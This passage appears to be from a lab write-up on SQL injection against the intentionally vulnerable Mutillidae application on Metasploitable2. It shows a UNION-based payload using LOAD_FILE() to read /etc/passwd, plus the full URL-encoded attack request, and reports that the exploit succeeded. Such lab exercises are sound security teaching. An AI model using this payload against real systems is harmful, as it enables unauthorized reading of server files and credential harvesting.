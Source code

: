 ### Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%20null,load_file(%E2%80%98/etc/passwd%E2%80%99),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![](o21.png)


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
